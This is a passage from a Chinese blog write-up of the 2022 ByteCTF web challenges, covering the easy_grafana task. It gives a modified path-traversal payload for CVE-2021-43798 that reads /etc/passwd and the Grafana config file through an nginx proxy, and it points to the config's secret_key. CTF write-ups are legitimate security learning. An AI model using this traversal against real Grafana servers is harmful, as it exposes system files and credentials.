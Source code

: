 ```yaml
---
title: "2022 ByteCTF Web 部分 Writeup"
date: 2022-09-29T20:17:22+08:00
lastmod: 2022-09-29T20:17:22+08:00
draft: false
author: "X1r0z"

tags: ['ctf','nodejs']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


军训没啥时间, 只能赛后自己试着做了一下...

感觉挺难的, 就做出来两道题



## easy_grafana

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209262037154.png)

Grafana v8.2.6, 存在 CVE-2021-43798 任意文件读取

[https://github.com/j-jasson/CVE-2021-43798-grafana_fileread](https://github.com/j-jasson/CVE-2021-43798-grafana_fileread)

直接用 payload 不行, 好像是 nginx 反向代理的问题?

改成如下的形式就能够读取文件了

```
/public/plugins/annolist/#/../..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209262039369.png)

配置文件路径

```
/etc/grafana/grafana.ini
```

里面的 `admin_password` 是注释掉的, 然后数据库的信息也没有

不过有个 secret_key
